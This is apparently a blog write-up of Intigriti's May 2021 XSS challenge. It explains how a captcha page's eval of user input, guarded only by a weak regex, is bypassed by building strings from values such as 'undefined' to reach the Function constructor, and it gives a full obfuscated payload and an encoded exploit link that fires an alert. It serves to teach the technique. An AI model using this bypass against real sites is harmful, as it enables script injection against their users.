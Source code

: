 ```yaml
---
layout: post
title:  "May Xss Challenge Intigriti Writeup"
date:   2021-06-07 15:00:00 +0100
categories: writeup Intigriti 
---
```


### Introduction

From the main site we can see that the captcha logic is processed by the `/captcha.php` site. This end point ends up being vulnerable to rXss. Another thing to note is that we can control the content of the input box and  the content of the "b" box (which contains the plus sign) by passing `b` and `c` parameters to the site trough a `GET` request.

So let's look at the code. At some point after clicking the `submit` button this code is executed:
     
	function calc() {
		const operation = a.innerText + b.innerText + c.value;
		if (!operation.match(/[a-df-z<>()!\\='"]/gi)) { // Allow letter 'e' because: https://en.wikipedia.org/wiki/E_(mathematical_constant)
			if (d.innerText == eval(operation)) {
				alert("🚫🤖 Congratulations, you're not a robot!");
			}
			else {
				alert("🤖 Sorry to break the news to you, but you are a robot!");
			}
		setNewNumber();
		}
		c.value = "";
	}
	
	
The content of  the `a` box ,`b` box   and `c`box is joined together, and after a quick regex to check for illegal characters its **directly executed**  via `eval`. It's worth noticing that the illegal characters check is not too strict. In fact all characters that I ended up using for the final payload are allowed : `e`,`[`,`]`,`` ` ``,`$`,`{`,`}`,`;`,`+`. (Also numbers are allowed)

>Note: The majority of the tricks I used here come from @garethheyes research about [executing non alphanumeric javascript without parenthesis](https://portswigger.net/research/executing-non-alphanumeric-javascript-without-parenthesis)

### How the exploit works

By passing `b=;` as a parameter, everything in the `input` box controlled by the `c` parameter is executed. That's because `;` after a number terminates the line immediately but it's still valid javascript. 
The trick here is crafting the javascript strings `"constructor"` and `"find"`. After doing that We can access The `Function` constructor with the following: `[]["find"]["constructor"]`.  Now we can execute  javascript by using[ template literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals) as a [calling convention](https://wesbos.com/tagged-template-literals) and also to construct the string of arbitrary code that we want to execute. 
At the end we are calling something that looks like this ```` []["find"]["constructor"]`e${"ale"+"rt(document.domain)"}``` ```` . 

The `e` character before the dollar sign `$` is necessary because for some reason using template literals this way, the string constructed inside it is passed as second argument to the `Function` constructor and whatever comes before (the `e` in this case) is passed as the first argument.

### Constructing The Strings

We already now we can't use strings directly because we basically have no direct access to alphabetic characters. The way to go here is to construct some default strings like `"undefined"` and accessing individual characters with square brackets notation. Here are the `default` strings I used:

	*  [2e500-2e500+[]] //Gives `"Nan"`
	*  [e.e+[]][0] //Gives `"Undefined"`
	*  [e+[]][0]  //Gives `"[object HTMLProgressElement]"`
	*  [[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]]  //Gives `"function find() { [native code] }"`
	
This works because `e` is used in [scientific notation](http://www.java2s.com/Tutorials/Javascript/Javascript_Tutorial/Data_Type/How_to_write_Scientific_notation_literal_in_Javascript.htm) as an exponential but it's also an `object` in the document( The `ProgressBar` has id=e ). For example to generate `undefined`  an unexisting propriety of `e` is accessed by doing `e.e`, after that it's converted to string using the plus sign (`e.e+[]`). To keep individual characters separated, this is enclosed in square brackets (`[e.e+[]]`), creating an array of one string. The first and only element of this array is the string `"undefined"`so we access it with `[e.e+[]][0]`. The other strings are generated using similar tricks.

### The final exploit

So we now have the ability to generate alphabetic characters and more (like the `(` and `)` characters) . By combining this with what I discussed earlier we can craft the final payload. Here is mine:

	[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]][[e+[]][0][5]+[e+[]][0][1]+[e+[]][0][25]+[e+[]][0][18]+[e+[]][0][26]+[e+[]][0][16]+[e.e+[]][0][0]+[e+[]][0][5]+[e+[]][0][6]+[e+[]][0][1]+[e+[]][0][16]]`e${[2e500-2e500+[]][0][1]+[e+[]][0][21]+[e+[]][0][4]+[e+[]][0][13]+[e+[]][0][26]+[[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]][0][13]+[e.e+[]][0][2]+[e+[]][0][1]+[e+[]][0][5]+[e.e+[]][0][0]+[e+[]][0][23]+[e.e+[]][0][3]+[e.e+[]][0][1]+[e+[]][0][6]+`.`+[e.e+[]][0][2]+[e+[]][0][1]+[e+[]][0][23]+[2e500-2e500+[]][0][1]+[e.e+[]][0][5]+[e.e+[]][0][1]+[[][[e.e+[]][0][4]+[e.e+[]][0][5]+[e.e+[]][0][6]+[e.e+[]][0][8]]+[]][0][14]}```
	
This is valid javascript and can be tested by directly executing it on the page using Developer Tools.
By [URL encoding](https://meyerweb.com/eric/tools/dencoder/) the payload and passing it as the `c` parameter we are able to craft the final malicious link:

	https://challenge-0521.intigriti.io/captcha.php?b=;&c=%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%5B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B25%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%5D%60e%24%7B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B3%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%60.%60%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60
	
Visit it by clicking [here](https://challenge-0521.intigriti.io/captcha.php?b=;&c=%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%5B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B25%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B18%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B16%5D%5D%60e%24%7B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B21%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B26%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B13%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B0%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B3%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%60.%60%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B2%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be%2B%5B%5D%5D%5B0%5D%5B23%5D%2B%5B2e500-2e500%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B1%5D%2B%5B%5B%5D%5B%5Be.e%2B%5B%5D%5D%5B0%5D%5B4%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B5%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B6%5D%2B%5Be.e%2B%5B%5D%5D%5B0%5D%5B8%5D%5D%2B%5B%5D%5D%5B0%5D%5B14%5D%7D%60%60%60). After opening the link, clicking on `submit` and waiting just a moment for the progress bar to load, an alert pops up.

